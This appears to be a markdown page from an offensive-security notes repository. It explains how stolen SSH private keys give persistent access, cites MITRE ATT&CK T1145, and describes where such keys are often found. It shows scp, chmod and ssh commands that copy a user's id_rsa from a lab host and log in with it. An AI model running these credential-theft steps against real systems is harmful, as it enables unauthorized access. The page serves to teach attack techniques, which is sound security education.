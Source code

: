 * [Theft of `SSH` private keys](#theft-of-ssh-private-keys)

# Theft of `SSH` private keys
Stealing SSH private key is a widely used method to maintain access even after the user changes his password. 

This is also covered by the MITRE ATT&CK framework: https://attack.mitre.org/techniques/T1145/

```
# Copy the private keys of the user from the server, if they are kept as backup
$ scp student@192.224.16.3:~/.ssh/id_rsa .

# Once you have access to private keys of the user, you can login without password
# Change the permissions of the private key id_rsa to 400.
# It is required that your private key files are NOT accessible by others.

$ chmod 400 id_rsa
$ ssh -i id_rsa student@192.224.16.3
```
Example of private SSH keys lying in the computer

__Example case I:__  A development server that compiles, pulls/pushes code from a central code repository, and deploys the application/software on a test server might have private keys of deployment server and code server (to automate things and avoid credentials every time).

__Example case II:__ For automation, a lot of tools like Ansible, use SSH-based connections to multiple target machines, and perform a set of pre-defined actions. In this case, the machine hosting the Ansible will have the private keys.

